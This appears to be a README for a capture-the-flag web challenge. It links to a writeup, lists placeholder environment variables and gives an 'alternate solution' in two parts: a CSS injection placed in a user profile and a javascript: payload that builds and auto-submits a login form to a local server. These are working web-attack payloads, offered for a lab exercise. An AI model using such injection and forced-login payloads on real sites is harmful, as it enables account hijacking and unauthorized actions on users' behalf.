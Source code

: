 Check out duckrice404's writeup here: <https://deyixtan.github.io/posts/wxmctf2023/web4-brawl-shopping-spree/>

Environment variables needed: 
`FLAG=wxmctf{theflag}`
`JWT_SECRET=somesecret`

Alternate Solution: (same idea, different method) 
Create an account with following profile: 
```html
<style>
p {
display: inline !important;
margin-top: -24rem;
position: absolute;
}
</style>
```

Then enter this in the research field: 
```js
javascript:{
var form = document.createElement("form");
form.method = "POST";
form.action = "http://127.0.0.1:3000/login";
var element1 = document.createElement("input"); 
var element2 = document.createElement("input");  
element1.value="123456";
element1.name="username";
form.appendChild(element1);  
element2.value="123456";
element2.name="password";
form.appendChild(element2);
document.body.appendChild(form);
form.submit();
}
```

